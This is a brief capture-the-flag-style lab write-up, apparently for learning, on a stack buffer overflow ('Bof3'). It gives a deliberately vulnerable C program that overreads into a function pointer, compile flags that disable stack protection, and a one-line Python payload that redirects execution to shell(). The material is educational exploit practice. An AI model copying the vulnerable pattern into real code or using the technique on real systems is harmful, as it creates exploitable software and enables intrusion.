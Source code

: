 ## Bof3
Source Code:
```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>

void shell() {
    printf("You made it! The shell() function is executed\n");
}

void sup() {
    printf("Congrat!\n");
}

void main()
{ 
    int var;
    void (*func)()=sup;
    char buf[128];
    fgets(buf,133,stdin);
    func();
}
```
Complie by gcc:
`gcc -g bof3.c -o bof3.out -fno-stack-protector -mpreferred-stack-boundary=2 `
![complie bof3](./imgs/bof3_1.png)

Use `objdump -d bof3.out | grep shell` to find `shell` address:
![shell address](./imgs/bof3_2.png)
Run program and put `128 bytes + shell address` to character array `buf` to buffer overflow to `*func`:
`echo $(python -c "print('a'*128 + '\x5b\x84\x04\x08')") | ./bof3.out`
![run program](./imgs/bof3_3.png)